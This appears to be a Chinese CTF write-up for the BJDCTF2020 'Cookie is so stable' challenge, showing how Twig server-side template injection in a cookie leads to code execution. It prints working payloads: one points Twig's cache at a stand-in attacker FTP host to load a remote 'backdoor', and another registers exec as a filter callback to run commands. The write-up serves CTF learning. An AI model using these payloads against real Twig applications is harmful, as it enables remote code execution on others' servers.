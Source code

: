 # \[BJDCTF2020]Cookie is so stable

## \[BJDCTF2020]Cookie is so stable

## 考点

* Twig模板注入

## wp

访问flag.php，它Cookie中的user处存在SSTI

![](<../../.gitbook/assets/Image \[2] (1).png>)

通过如下方式判断出SSTI类型为Twig

![](../../.gitbook/assets/8sFfzWRJrj.png)

Twig 提供了一个`_self`，它有一个`env`属性，是[Twig\_Environment](https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php)对象。`Twig_Environment`对象有一个`setCache`方法可用于更改Twig尝试加载和执行编译模板（PHP文件）的位置。因此可以通过将缓存位置设置为远程服务器来引入远程文件包含漏洞，前提是开启了allow\_url\_include。

```
{{_self.env.setCache("ftp://attacker.net:2121")}}
{{_self.env.loadTemplate("backdoor")}}
```

另外，`Twig_Environment`对象还有个调用过滤器的函数 [getFilter()](https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php#L874)它调用了call\_user\_function 方法

```php
public function getFilter($name)
{
        [snip]
        foreach ($this->filterCallbacks as $callback) {
        if (false !== $filter = call_user_func($callback, $name)) {//注意这行
            return $filter;
        }
    }
    return false;
}

public function registerUndefinedFilterCallback($callable)
{
    $this->filterCallbacks[] = $callable;
} php
```

只要把exec作为回调函数即可

```
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}
```

## 小结

1. [一篇文章带你理解漏洞之SSTI漏洞](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)

